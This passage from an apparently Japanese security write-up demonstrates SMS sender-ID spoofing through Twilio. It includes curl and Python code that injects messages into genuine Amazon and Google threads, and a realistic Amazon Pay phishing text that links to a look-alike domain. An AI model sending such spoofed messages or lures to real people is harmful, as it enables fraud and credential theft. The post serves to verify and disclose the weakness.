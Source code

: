 まずはiOSの公式メッセージアプリに届いていたAmazonからのメッセージのスレッドで偽装を試みる。送信者IDは Amazon となっているため、TwilioでSMSを送信する際のFromの値に Amazon を指定する。

```
curl -X POST https://api.twilio.com/2010-04-01/Accounts/{$ACCOUNT_SID}/Messages.json \
--data-urlencode "From=Amazon" \
--data-urlencode "Body=hello" \
--data-urlencode "To=$IPHONE_NUMBER" \
-u $ACCOUNT_SID:$AUTH_TOKEN
```

<img src="./amazon_hello.png" width="400"/>


Twilioから送信したメッセージ「hello」が正規のスレッドに含まれた。JC3の説明は本当だった。日本語やURLリンクを含めた現実的なフィッシングメッセージの送信も試みる。Curlでは長文のメッセージが送りづらかったので、TwilioのPythonモジュールを使用してメッセージを送る。

```
import os
from twilio.rest import Client

account_sid = os.environ.get('ACCOUNT_SID')
auth_token = os.environ.get('AUTH_TOKEN')
client = Client(account_sid, auth_token)

message = client.messages.create(
    body=("Amazon Pay キャッシュバックキャンペーンに当選しました。\n\n"
          "下記のリンクからログインして1万円分のポイントをご利用ください。\n"
          "https://amazon.akaki.io/"),
    from_='Amazon',
    to=os.environ.get('IPHONE_NUMBER')
)
```

<img src="./amazon_fake.png" width="400"/>

URLリンクを含んだ日本語のメッセージも送信できた。Androidの公式メッセージアプリでも同様に送信元の偽装を試みる。Googleからのメッセージの送信者IDである Google をFromの値に指定すると、送信したメッセージが正規のスレッドに含まれた。

<img src="./google_fake.png" width="400"/>

なお当初は Amazon ではなく Apple のスレッドでの実証を予定していたが、Fromの値に Apple を指定するとError 21212が発生した。Fromの値を Applo に変更するとメッセージを送信できるため、Twilio側で特定の送信者IDの指定を禁止していると推測する。

```
$ curl -X POST https://api.twilio.com/2010-04-01/Accounts/{$ACCOUNT_SID}/Messages.json \
> --data-urlencode "From=Apple" \
> --data-urlencode "Body=hello" \
> --data-urlencode "To=$IPHONE_NUMBER" \
> -u $ACCOUNT_SID:$AUTH_TOKEN
{"code": 21212, "message": "The 'From' number Apple is not a valid phone number, shortcode, or alphanumeric sender ID.", "more_info": "https://www.twilio.com/docs/errors/21212", "status": 400}
```

##### 送信元表記が電話番号のケース
